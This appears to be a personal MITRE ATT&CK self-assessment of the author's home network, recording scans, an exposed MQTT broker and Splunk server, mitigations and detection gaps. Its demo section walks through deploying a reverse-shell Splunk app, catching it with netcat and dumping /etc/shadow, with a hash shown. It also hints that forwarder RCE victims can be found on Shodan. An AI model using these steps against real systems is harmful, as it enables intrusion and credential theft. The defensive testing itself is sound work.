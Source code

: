 # MITTRE ATTACK analysis

# Iteration 1
This first iteration is based on the status where there were some exposed services.

| Tactics	| Techniques | Sub-tech	| Attack details	| Results	| Mitigations	| Detection	| Issues | Future actions |
|---|---|---|---|---|---|---|---|---|
|Reconnaissance TA0043	| Active Scanning	T1595	| Scanning IP Blocks 0.001	| connected via a mobile phone to get an externl IP ping home.pires.xyz results the 2.80.44.128 sudo nmap -sV | IP is 2.80.44.128 sudo nmap -sV home.rpires.xyz DNS record for 2.80.44.128: bl19-44-128.dsl.telepac.pt PORT     STATE  SERVICE  VERSION 80/tcp   open   http     lighttpd 1.4.69  113/tcp  closed ident 443/tcp  closed https  1883/tcp open mqtt 8000/tcp open   ssl/http Splunkd httpd |	M1056        Pre-compromise  detect and block uncommon data flows| My temporary IP is 87.196.80.59, which can be found at a webservice such as https://whatismyipaddress.com/. Or via cli with: dig +short myip.opendns.com @resolver1.opendns.com 87.196.80.59  There are 2 alerts generated, but the scan is not detected.|	No detection of uncommon data flows. | Create rules to indentify and block port scans.|
|Reconnaissance TA0043	| Active Scanning T1595	| Vulnerability Scanning 0.002	| splunk: https://book.hacktricks.xyz/network-services-pentesting/8089-splunkd Shodan does not find this server. mqtt: : mosquitto_sub -t ""#"" -h home.rpires.xyz 91 13 38.50| Above scan indentifies 3 open ports: 80, 1883 and 8000. Some analysis around the web raises some paths for an attack: - 80/lighttpd 1.4.69, no vulnerabilities found https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=lighttpd - 1883/mqtt, no vulnerabilities found. However a quick test confirms that mqtt is not secured. https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto - 8000/splunk: possibly unhautenticated, confirmed with accessing via a browser to https://home.rpires.xyz:8000/en-US/app/launcher/home. Authentication GUI is restricted to paid licenses. https://book.hacktricks.xyz/network-services-pentesting/8089-splunkd | M1042        Disable or Remove Feature or Program M1056        Pre-compromise activate authentication on splunk activate authentiction and encryption in mqtt service |	DS0029        Network Traffic not detected |	mqtt data is not encrypted neither the data sources are vetted, hence an adversary can listen and inject data. Splunk server may be compromised by a malicious actor by analyzing the logs and installing apps. One specific app may provide reverse shell | enable authentication on splunk enable authentiction and encryption in mqtt service |
|Reconnaissance TA0043	|Active Scanning T1595	|Wordlist Scanning 0.003	|dirbuster and zap scanning	|no major issues raised	|detect and block uncommon data flows such as scans or crawlers M1042        Disable or Remove Feature or Program M1056        Pre-compromise| DS0029        Network Traffic not detected |	none |updated ssh password and pihole password which were simple old passwords, collected in past breaches, confirmed in https://haveibeenpwned.com/|
|Initial Access TA0001	|Exploit Public-Facing Application	|n/a	|userless login to splunk server, then upload a malicious app as described in https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto	|root access to the splunk server machine	|The Spluk server can be protected by updating to the licensed version and thus: M1026        Privileged Account Management M1051        Update Software As last resort, put it in a DMZ: M1030        Network Segmentation Other mitigation is to use a reverse proxy: M1050        Exploit Protection |DS0015        Application Log, not detected DS0029        Network Traffic, not detected| root access to the splunk server machine	|track splunk application log, create reverse proxy access, consider licensing splunk, consider other FOSS tool|

After this initial access, the whole network is at stake, as the adversaty could:
* Persistance TA0003/T1098	Account Manipulation, create a new ssh account
* Lateral Movement TA0008/, all local machines and services could be compromised
  
## Attack steps and demo
* Guide: https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto
* Code: https://github.com/0xjpuff/reverse_shell_splunk
Step 1: git clone https://github.com/0xjpuff/reverse_shell_splunk
Step 2: edit the attacker IP (own IP) and specicy a new port
Step 3: tar and then rename to be packaged as a splunk app
Step 4: deploy in the target splunk, and then reboot

![pic](splunk_install_app.png)

Step 5: listen in your computer with:  
sudo nc -nlvp "2224"  
[sudo] password for rpires:   
Listening on 0.0.0.0 2224  
Connection received on 192.168.1.65 57714  
┌──(root💀kali)-[/]  
└─# cat /etc/shadow  
cat /etc/shadow  
root:!:18764:0:99999:7:::  
....  
user:$y$j9T$6Yi8mmJLaFPUnsIb/EUE31$9iJbm1a7TR/8SPry4ilRUqf5dQqcw1mDJlbdjRSGwsC:18764:0:99999:7:::  
splunk:!:19615:0:99999:7:::  
splunkfwd:!:19711:0:99999:7:::  

## Other attack
You can do RCE using the forwarder.
Exploit Overview: An exploit targeting the Splunk Universal Forwarder Agent (UF) allows attackers with the agent password to execute arbitrary code on systems running the agent, potentially compromising an entire network.  
Explained here https://book.hacktricks.xyz/linux-hardening/privilege-escalation/splunk-lpe-and-persistence and code here https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
Haven't tried this yet, however there are may potential victims available in Shodam.

## Mitigations done
### Improved homepage
The homepage was outdated following a previous crash of raspberryPi.
Check it out at http://home.rpires.xyz

### Hide splunk behind a reverse proxy
...  
Try it at https://home.rpires.xyz:8000

### Monitored splunk log
Added a new dashboard for splunk access logs.
Couldn't find the log files, that should be stored in /var/log/splunk/.


## Future mitigations
* Replace Splunk with a FOSS.
* move the webpage to https/443
* add authentication and encryption to MQTT. Need to assess if the ESPs can support
* track spluk users logs in splunk
  
# **Iteration 2**
This iteration is based on the status where the splunk server is protected with a reverse proxy and further detections were added to Splunk.
